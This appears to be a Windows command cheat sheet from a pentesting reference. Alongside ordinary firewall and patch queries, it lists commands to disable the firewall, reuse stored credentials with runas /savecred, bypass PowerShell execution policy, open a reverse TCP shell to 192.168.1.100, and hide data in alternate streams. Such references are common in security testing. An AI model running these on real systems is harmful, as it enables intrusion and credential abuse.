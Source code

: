 ## Windows Commands

|:---	|---:|
|commands 	|description|
|:---	|---:|
|`netsh advfirewall show allprofiles state`|windows firewall check status|
|:---	|---:|
|`netsh advfirewall show currentprofile`|windows firewall show profile|
|:---	|---:|
|`netsh advfirewall firewall show rule name=all`|windows firewall show rules|
|:---	|---:|
|`netsh advfirewall set allprofiles state off`|windows firewall disable|
|:---	|---:|
|`netsh advfirewall set allprofiles state on`|windows firewall enable|
|:---	|---:|
|`wmic product get name, version, vendor`|list installed applications|
|:---	|---:|
|`wmic qfe get Caption, Description, HotFixID, InstalledOn`|list installed patch|
|:---	|---:|
|`where /R C:\ file.exe`|search file|
|:---	|---:|
|`type file.txt | findstr /si "KB5013624"`|search content|
|:---	|---:|
|`cmdkey /list`|show stored credentials|
|:---	|---:|
|`C:\Windows\System32\runas.exe /user:<stored_user> /savecred "C:\Windows\System32\cmd.exe /c <command>"`|leverage stored credentials|
|:---	|---:|
|`powershell -ep bypass [script_path]` <br/> `powershell -ep unstricted [script_path]`|powershell change execution policy|
|:---	|---:|
|`Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.100 -Port 8080`|powershell reverse tcp|
|:---	|---:|
|`echo secrettext > file.txt:showme`|create file with alternate data stream(ADS)|
|:---	|---:|
|`dir /R`|inspect file with alternative data stream(ADS) content|
|:---	|---:|



